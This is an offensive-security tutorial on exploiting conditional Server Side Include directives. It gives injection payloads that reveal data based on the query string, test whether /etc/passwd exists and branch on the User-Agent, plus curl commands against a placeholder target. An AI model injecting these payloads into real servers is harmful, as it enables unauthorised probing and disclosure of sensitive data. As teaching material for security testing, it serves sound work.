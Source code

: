 ```yaml
---
title: Exploiting Conditional SSI for Server Manipulation
description: Learn to exploit conditional logic in Server Side Includes to manipulate
  server-side behavior and extract sensitive data.
keywords:
- conditional SSI
- server-side includes
- SSI injection
- logic flow manipulation
- variable comparison
- boolean logic
- web server configuration
- exploitation techniques
- security vulnerabilities
---
```


# Conditional SSI

## Context

The purpose of this guide is to demonstrate how conditional logic in Server Side Includes (SSI) can be exploited to manipulate server-side behavior and extract sensitive information. The reader should have a foundational understanding of server-side includes, conditional logic, web server configuration, and specifically, Server Side Include Injection.

## Theory

### Conditional Logic in SSI Directives

Conditional Server Side Includes (SSI) enable the use of directives such as `<!--#if -->`, `<!--#elif -->`, `<!--#else -->`, and `<!--#endif -->` to control server-side logic. Attackers can inject or manipulate these conditional SSI directives to alter the way server-side content is rendered. This capability is exploited when improper input sanitization allows attacker-supplied SSI with conditional logic to be executed by the server.

### Variable Comparison and Boolean Logic in SSI

SSI allows for variable comparison by using expressions such as `<!--#if expr="$QUERY_STRING = 'admin'" -->` and supports boolean operators. Attackers can utilize these variable comparisons to leak information or trigger different server responses based on the outcome of their expressions. The typical attack sequence involves injecting conditional SSI that tests for specific variable values, file existence, or server state.

### Logic Flow Manipulation via SSI Injection

By crafting payloads that branch execution based on server-side variables or file presence, attackers can manipulate the logic flow. Attackers might use nested or obfuscated conditionals to evade basic input filters and execute unintended logic on the server.

```mermaid
flowchart TD
    A[User Input] --> B{Is Input Parsed as SSI?}
    B -- Yes --> C{Conditional Directive Injected?}
    C -- Yes --> D[Server Executes Conditional Logic]
    D --> E[Attacker Controls Output]
    C -- No --> F[Normal SSI Execution]
    B -- No --> G[No SSI Execution]
```

## Practice

### Conditional SSI Variable Comparison Exploitation

- Inject the following SSI payload in a vulnerable server context:
  ```html
  <!--#if expr="$QUERY_STRING = 'admin'" -->Sensitive Data: SECRET<!--#else -->Access Denied<!--#endif -->
  ```
  This conditional SSI reveals sensitive data if the `QUERY_STRING` matches 'admin'.

- Execute a command to simulate the condition where `QUERY_STRING` is 'admin':
  ```bash
  curl 'http://target/page.shtml?admin'
  ```
  Observe that the condition grants access to sensitive data.

- Test the alternate path by setting `QUERY_STRING` to a different value:
  ```bash
  curl 'http://target/page.shtml?user'
  ```
  Verify that access is denied under different conditions.

### File Existence Disclosure via Conditional SSI

- Inject the following payload to check the existence of a sensitive file:
  ```html
  <!--#if expr="-e /etc/passwd" -->File Exists<!--#else -->No File<!--#endif -->
  ```
  This payload checks for the existence of `/etc/passwd` using conditional logic.

- Send a request to the SSI-enabled page:
  ```bash
  curl 'http://target/page.shtml'
  ```
  The server response will indicate whether the file exists or not, confirming sensitive file presence.

### Logic Flow Manipulation with Nested Conditionals

- Use a payload to differentiate responses based on the `User-Agent` header:
  ```html
  <!--#if expr="$HTTP_USER_AGENT = /curl/" -->Curl User<!--#elif expr="$HTTP_USER_AGENT = /Mozilla/" -->Browser User<!--#else -->Unknown<!--#endif -->
  ```
  This SSI snippet branches logic based on the `User-Agent` string from the request headers.

- Trigger the first conditional branch with:
  ```bash
  curl -A 'curl' 'http://target/page.shtml'
  ```

- Trigger the `elif` branch with:
  ```bash
  curl -A 'Mozilla' 'http://target/page.shtml'
  ```

The server's response varies based on the `User-Agent`, demonstrating how logic flow can be manipulated.

## Tools

- **curl**: Used to perform HTTP requests exploiting conditional SSIs.